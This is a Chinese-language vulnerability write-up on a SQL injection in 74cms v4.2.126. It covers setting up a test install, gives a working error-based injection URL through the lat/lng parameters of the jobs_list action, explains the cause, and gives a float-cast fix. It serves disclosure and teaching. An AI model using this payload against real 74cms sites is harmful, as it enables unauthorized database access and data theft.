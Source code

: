 74cms v4.2.126-通杀sql注入
==========================

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

![](resource/74cmsv4.2.126-通杀sql注入/media/rId26.png)

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

![](resource/74cmsv4.2.126-通杀sql注入/media/rId28.png)

0x02.2注册普通账号方便测试
--------------------------

![](resource/74cmsv4.2.126-通杀sql注入/media/rId30.png)

0x03 sql漏洞演示
================

![](resource/74cmsv4.2.126-通杀sql注入/media/rId32.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId33.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

![](resource/74cmsv4.2.126-通杀sql注入/media/rId34.png)

0x04 漏洞原理
=============

![](resource/74cmsv4.2.126-通杀sql注入/media/rId36.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId37.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId38.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId39.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId40.png)

16.png

说明我们的猜想是没有错的。

![](resource/74cmsv4.2.126-通杀sql注入/media/rId41.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId42.png)

所以最终我们符合条件的内容都会赋值为\$this-\>params

![](resource/74cmsv4.2.126-通杀sql注入/media/rId43.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId44.png)

![](resource/74cmsv4.2.126-通杀sql注入/media/rId45.png)

0x05 修复方法
=============

![](resource/74cmsv4.2.126-通杀sql注入/media/rId47.png)

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
